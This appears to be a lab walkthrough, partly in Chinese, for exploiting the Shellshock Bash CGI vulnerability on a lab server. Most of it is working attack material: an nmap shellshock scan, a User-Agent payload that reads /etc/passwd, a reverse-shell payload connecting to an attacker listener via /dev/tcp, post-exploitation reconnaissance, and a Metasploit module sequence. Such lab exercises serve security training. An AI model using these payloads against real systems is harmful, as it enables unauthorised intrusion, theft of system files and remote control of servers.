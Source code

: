 ```
192.24.241.3 
```

`View Page Source`

```
192.24.241.3/gettime.cgi
```

```
nmap -sV 192.24.241.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

将Foxy Proxy切换为Burp Suite。在目录中选择03-Web Application Analysis->burpsuite。

`Proxy->Intercept->Intercept is on->Forward->Reload->Send to Repeater`

```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

Gain a reverse shell on the target system. We can utilize Bash to connect to a listener on our Kali system.

```
nc -nvlp 1234
```

Connecting with Bash to our listener.

```
ifconfig
```

```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
```

We should get a reverse shell on our listener.

```
daemon@victim-1:/opt/apache/htdocs$ whoami
```

Get the information regarding to the distribution.

```
daemon@victim-1:/opt/apache/htdocs$ cat /etc/*issue
```

Kernel information:

```
daemon@victim-1:/opt/apache/htdocs$ uname -a
```

That is how to exploit this vulnerability manually using Burp Proxy.

How to exploit this vulnerability with the Metasploit Framework.

```
service postgresql start && msfconsole

search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
show options
set RHOSTS 192.24.241.3
set TARGETURI /gettime.cgi
exploit

meterpreter > sysinfo
```
